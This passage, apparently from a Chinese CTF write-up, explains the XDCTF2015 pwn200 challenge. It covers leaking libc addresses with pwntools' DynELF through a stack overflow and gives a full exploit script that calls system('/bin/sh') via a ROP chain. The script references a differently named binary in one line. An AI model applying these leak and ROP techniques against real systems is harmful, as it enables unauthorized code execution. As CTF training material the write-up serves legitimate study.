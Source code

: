 

**其他需要注意的地址**



在信息泄露过程中，由于循环制造溢出，故可能会导致栈结构发生不可预料的变化，可以尝试调用目标二进制程序的_start函数来重新开始程序以恢复栈。<br style="text-align: left">

<br style="text-align: left">

**XDCTF2015-pwn200**



本题是32位linux下的二进制程序，无cookie，存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件。具体的栈溢出位置等调试过程就不细说了，只简要说一下**借助DynELF实现利用的要点：**<br style="text-align: left">

 1）调用write函数来泄露地址信息，比较方便；

 2）32位linux下可以通过布置栈空间来构造函数参数，不用找gadget，比较方便；

 3）在泄露完函数地址后，需要重新调用一下_start函数，用以恢复栈；

 4）在实际调用system前，需要通过三次pop操作来将栈指针指向systemAddress，可以使用ropper或ROPgadget来完成。

接下来就直接给出利用代码。

```
from pwn import *
import binascii
p = process("./xdctf-pwn200")
elf = ELF("./xdctf-pwn200")
writeplt = elf.symbols['write']
writegot = elf.got['write']
readplt = elf.symbols['read']
readgot = elf.got['read']
vulnaddress =  0x08048484 
startaddress = 0x080483d0      #调用start函数，用以恢复栈
bssaddress =   0x0804a020    #用来写入“/bin/sh”字符串
def leak(address):
  payload = "A" * 112
  payload += p32(writeplt)
  payload += p32(vulnaddress)
  payload += p32(1)
  payload += p32(address)
  payload += p32(4)
  p.send(payload)
  data = p.recv(4)
  print "%#x =&gt; %s" % (address, (data or '').encode('hex'))
  return data
print p.recvline()
dynelf = DynELF(leak, elf=ELF("./lctf-pwn200"))
systemAddress = dynelf.lookup("__libc_system", "libc") 
print "systemAddress:", hex(systemAddress)
#调用_start函数，恢复栈
payload1 = "A" * 112
payload1 += p32(startaddress) 
p.send(payload1)
print p.recv()
ppprAddress = 0x0804856c  #获取到的连续3次pop操作的gadget的地址 
payload1 = "A" * 112
payload1 += p32(readplt)
payload1 += p32(ppprAddress)
payload1 += p32(0)
payload1 += p32(bssaddress)
payload1 += p32(8)
payload1 += p32(systemAddress) + p32(vulnaddress) + p32(bssaddress)
p.send(payload1)
p.send('/bin/sh')
p.interactive()
```